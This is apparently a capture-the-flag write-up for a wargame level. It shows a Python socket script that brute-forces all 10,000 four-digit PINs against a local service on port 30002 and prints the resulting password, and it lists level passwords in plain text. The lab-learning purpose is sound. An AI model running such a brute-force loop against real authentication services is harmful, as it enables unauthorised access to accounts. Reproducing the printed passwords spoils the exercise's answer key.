 If you are new to socket go through the docs or this [GFG article](https://www.geeksforgeeks.org/socket-programming-python/)

So using this we will create a socket and connect it to localhost and port 30002. Bruteforce all the pins in the format asked, and check the response. It will take a few seconds because in my case 2588 was the correct pin. And along with that there was the password . 

Here is my script.

```python

import socket

s = socket.socket()
s.connect(('127.0.0.1', 30002))
print('Socket Connected')
s.recv(1024)

for pin in range(10000):
    data = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + str(pin).zfill(4)+'\n'
    s.sendall(data.encode())
    print('PIN: ', str(pin).zfill(4), end=' ')
    response = s.recv(1024).decode()

    if "Wrong" in response:
        print('WRONG')
    else:
        print('CORRECT')
        print(response)
        break


```

**passwd*: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

References:
* [CheatSheet](https://gist.github.com/bradtraversy/ac3b1136fc7d739a788ad1e42a78b610#file-myscript-sh)
                                                                       

